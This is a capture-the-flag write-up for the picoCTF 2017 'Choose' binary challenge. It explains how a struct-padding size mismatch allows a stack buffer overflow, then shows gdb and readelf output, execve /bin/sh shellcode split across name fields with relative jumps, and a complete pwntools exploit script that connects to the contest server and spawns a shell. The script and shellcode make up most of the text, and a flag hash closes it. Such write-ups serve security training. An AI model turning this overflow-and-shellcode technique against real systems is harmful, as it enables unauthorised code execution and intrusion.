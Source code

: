 ## Choose - 150

### Description

Unhappy that you can't choose which enemies to fight? [Choose](./choose) your own adventure! [Source](./source). Connect on shell2017.picoctf.com:12898. ASLR is not enabled.

### Hint

  - An assumption made in the code is wrong. Which assumption, and what does it allow you to do?

### Write up

The code assumes that all structs have same size.

```c
//Can use an orc ptr as all the structs are the same size.
        orc * tempEnemy = (orc *)(enemies + enemOffset);
```

But it's wrong because of the padding.

```c
typedef struct _orc{
    char type;
    short damage;
    // 1 byte padding
    int health;
    char name[12];
} orc;

typedef struct _unicorn{
    char type;
    // 3 byte padding
    int health;
    short damage;
    char name[12];
    // 2 byte padding
} unicorn;
```

actually, unicorn's size is 24 bytes, whereas orc's size is 20 bytes.

```c
#define ENEMSIZE sizeof(orc)
...
char enemies[ENEMSIZE * NUMMONSTERS];
```

But the code uses sizeof(orc) * NUMMONSTERS as a length of array.

So, we can overflow this array by filling this array with unicorns, and manipulate RET of runGame().

```
gdb-peda$ disas runGame
Dump of assembler code for function runGame:
   0x08049849 <+0>:	push   ebp
   0x0804984a <+1>:	mov    ebp,esp
   0x0804984c <+3>:	sub    esp,0xf8
```

we can manipulate RET by,

248(f8) + 4(SFP) + `\xff\xff\xff\xff`

If we generate 11 unicorns, the `\xff\xff\xff\xff` part will be 11th unicorn's name area[2:].

Then, what address should we use?

```
$ file choose
choose: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=952b7d0f1a0002e20d397504681611e4777811d6, not stripped
```

The file is statically linked but,

```
$ readelf -s choose | grep system           
   864: 080d4140    36 OBJECT  LOCAL  DEFAULT   10 system_dirs
   865: 080d412c    16 OBJECT  LOCAL  DEFAULT   10 system_dirs_len

$ readelf -s choose | grep exe              
       94: 080b9f00  2467 FUNC    LOCAL  DEFAULT    6 execute_cfa_program
       98: 080bb110  1978 FUNC    LOCAL  DEFAULT    6 execute_stack_op
     1197: 0809b960    88 FUNC    GLOBAL DEFAULT    6 _dl_make_stack_executable
     2234: 080ebab4     4 OBJECT  GLOBAL DEFAULT   24 _dl_make_stack_executable
```

We can't find system or execve functions.

So, we need to find some memory that we can put shellcode in.

```c
#define ENEMNAMELEN 12
...
char name[ENEMNAMELEN];
...
printf("Enter a name for this unicorn:\n");
    readWrapper(enemPtr->name, ENEMNAMELEN);
```

We can use name area that we can arbitrarily choose. But since the size of each name array is not enough to put whole shellcode in, we need to separate the shellcode.

I adapted shellcode from [here](http://shell-storm.org/shellcode/files/shellcode-811.php)

```
8048060: 31 c0                 xor    %eax,%eax
8048062: 50                    push   %eax
8048063: 68 2f 2f 73 68        push   $0x68732f2f
8048068: 68 2f 62 69 6e        push   $0x6e69622f
804806d: 89 e3                 mov    %esp,%ebx
804806f: 89 c1                 mov    %eax,%ecx
8048071: 89 c2                 mov    %eax,%edx
8048073: b0 0b                 mov    $0xb,%al
8048075: cd 80                 int    $0x80
8048077: 31 c0                 xor    %eax,%eax
8048079: 40                    inc    %eax
804807a: cd 80                 int    $0x80
```

and separated the shellcode using `EB cb` which is relative JMP.

```python
shells = [
    '\x31\xc0\x50\x68\x2f\x2f\x73\x68' + '\xeb\x0e',
    '\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1' + '\xeb\x0d',
    '\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40' + '\xeb\x0d',
    '\xcd\x80',
]
```

We will put that to unicorn[0~3].name. And set RET to unicorn[0].name.

Then we need to get start address of `enemies` array.

Fortunately, the ASLR is not set, so the address is not changing.

```c
if(ctfer.wizardSight){
    printf("Your sight shows the enemy at %p\n", enemy);
}
```

There is a wizardSight winning that give us the stack address. So we can get the address of `enemies` using it.

```python
from pwn import *
import sys
import struct

# relative jmp => eb <offset>
ORC_STRUCT_SIZE = 20
UNICORN_STRUCT_SIZE = 24
UNICORN_NAME_OFFSET = 10
ENEMNAMELEN = 12

shellcode_address = 0xffffdba4 - ORC_STRUCT_SIZE + UNICORN_NAME_OFFSET
shellcode_address = p32(shellcode_address)

shells = [
    '\x31\xc0\x50\x68\x2f\x2f\x73\x68' + '\xeb\x0e',
    '\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1' + '\xeb\x0d',
    '\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40' + '\xeb\x0d',
    '\xcd\x80',
]

p = remote('shell2017.picoctf.com', 12898)
# p = process(['./choose'])

# generate 11 unicorns
for i in range(11):
    p.sendline('u')

for i in range(len(shells)):
    p.sendline(shells[i])

for i in range(11-len(shells)-1):
    p.sendline('asdf')

p.sendline('aa'+shellcode_address)

for i in range(16):
    p.sendline('f')
p.interactive()
```


> ff30b8aa5106b865c5927cbf4a729a1f
